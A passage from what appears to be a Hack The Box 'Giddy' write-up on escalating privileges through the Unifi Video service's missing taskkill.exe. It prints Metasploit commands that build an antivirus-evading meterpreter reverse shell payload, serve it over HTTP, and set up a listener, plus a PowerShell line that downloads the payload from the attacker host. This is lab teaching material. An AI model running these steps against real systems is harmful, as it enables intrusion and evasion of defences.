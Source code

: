 This means, if we have a permission for writting C:\ProgramData\unifi-video, We can write a file "taskkill.exe" in that folder.<br>
By default that file does not exist.<br>
However, "Unifi Video" still tries to execute it with privileged permission when it restarts.

Payload creation:<br>
This time, to avoid antivirus, we use a Metasploit evasion module.
{% highlight shell %}
msf5 evasion(windows/windows_defender_exe) > use evasion/windows/windows_defender_exe 
msf5 evasion(windows/windows_defender_exe) > set payload windows/meterpreter_reverse_https
payload => windows/meterpreter_reverse_https
msf5 evasion(windows/windows_defender_exe) > set lport 443
lport => 443
msf5 evasion(windows/windows_defender_exe) > set lhost tun0
lhost => tun0
msf5 evasion(windows/windows_defender_exe) > set filename taskkill.exe
filename => taskkill.exe
msf5 evasion(windows/windows_defender_exe) > run

[*] Compiled executable size: 184320
[+] taskkill.exe stored at /root/.msf4/local/taskkill.exe
{% endhighlight %}

Then, we had our payload in /root/.msf4/local.<br>
Next, run a simple webserver to let Giddy download the "taskkill.exe"

{% highlight shell %}
root@kali:~/.msf4/local# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}

After that, launch a reverse shell handler with Metasploit.

{% highlight shell %}
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter_reverse_https
payload => windows/meterpreter_reverse_https
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://10.10.14.23:443
{% endhighlight %}

To download "taskkill.exe" on our host, cd to "C:\ProgramData\unifi-video" and execute a command on Giddy.

{% highlight shell %}
PS C:\Users\Stacy\Documents> 
cd C:\ProgramData
PS C:\ProgramData> 
cd unifi-video
PS C:\ProgramData\unifi-video> 
Invoke-WebRequest -o taskkill.exe http://10.10.14.23/taskkill.exe
PS C:\ProgramData\unifi-video> 
dir
 
    Directory: C:\ProgramData\unifi-video
 
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        6/16/2018   9:54 PM                bin                                                                   
d-----        6/16/2018   9:55 PM                conf                                                                  
d-----        6/16/2018  10:56 PM                data                                                                  
d-----        6/16/2018   9:54 PM                email                                                                 
d-----        6/16/2018   9:54 PM                fw                                                                    